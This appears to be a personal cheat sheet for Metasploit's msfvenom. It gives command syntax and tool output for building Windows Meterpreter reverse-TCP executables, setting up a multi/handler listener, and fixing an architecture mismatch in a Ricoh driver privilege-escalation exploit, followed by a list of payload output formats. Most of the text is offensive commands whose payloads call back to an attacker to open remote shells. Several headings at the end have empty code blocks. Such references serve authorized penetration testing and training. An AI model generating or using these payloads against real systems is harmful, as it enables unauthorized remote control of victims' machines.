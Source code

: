 [MSFVenom - CheatSheet
 by hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)

[MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter by infinitelogins)](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

### Syntax (not case sensitive, variable can be used for LHOST)
```
msfvenom -p <PAYLOAD> LHOST=<IP> LPORT=<port> -f <FORMAT> -o <OUTPUT>
msfvenom -p <PAYLOAD> LHOST=<IP> LPORT=<port> -f <FORMAT> -e <ENCODER> -i <ENCODE COUNT> -o <OUTPUT>
```

### Common 32 bit
```
myip=127.0.0.1

msfvenom -p windows/meterpreter/reverse_tcp lhost=$myip lport=3232 -f exe -o rev.exe
```

### Capture 32 vs 64 bit (exploit/multi/handler)
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp

# or

set payload windows/x64/meterpreter/reverse_tcp
```

### Examples 
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >

msf6 exploit(multi/handler) > grep yes options
   LHOST                   yes       The listen address (an interface may be specified)                                              
   LPORT  4444             yes       The listen port
```

### list all payloads
```
msfvenom -l payloads
```

## Common Mistake

### The payload should use the same architecture as the target driver
```
msf6 exploit(windows/local/ricoh_driver_privesc) > run 

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[-] Exploit aborted due to failure: bad-config: The payload should use the same architecture as the target driver
[*] Deleting printer 
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/ricoh_driver_privesc) >
```
### 
```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=$myip lport=1234 -a x64 -f exe -o rev64.exe           
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Error: The selected arch is incompatible with the payload
```

### 
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=$myip lport=6464 -a x64 -f exe -o r64.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: r64.exe
```

### 
```
$ file r*     
r32.exe: PE32 executable (GUI) Intel 80386, for MS Windows, 4 sections
r64.exe: PE32+ executable (GUI) x86-64, for MS Windows, 3 sections
```

### Options:
```
-l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all

-p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
   --list-options               List --payload <value>'s standard, advanced and evasion options

-f, --format          <format>   Output format (use --list formats to list)
```

### list format; -lf or -l -f or --list format (if you like to type)
```
$ msfvenom -lf

Framework Executable Formats [--format <value>]
===============================================

    Name
    ----
    asp
    aspx
    aspx-exe
    axis2
    dll
    ducky-script-psh
    elf
    elf-so
    exe
    exe-only
    exe-service
    exe-small
    hta-psh
    jar
    jsp
    loop-vbs                                                                                                                         
    macho                                                                                                                            
    msi
    msi-nouac
    osx-app
    psh
    psh-cmd
    psh-net
    psh-reflection
    python-reflection
    vba
    vba-exe
    vba-psh
    vbs
    war

Framework Transform Formats [--format <value>]
==============================================

    Name
    ----
    base32
    base64
    bash
    c
    csharp
    dw
    dword
    go
    golang
    hex
    java
    js_be
    js_le
    masm
    nim
    nimlang
    num
    perl
    pl
    powershell
    ps1
    py
    python
    raw
    rb
    ruby
    rust
    rustlang
    sh
    vbapplication
    vbscript
```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```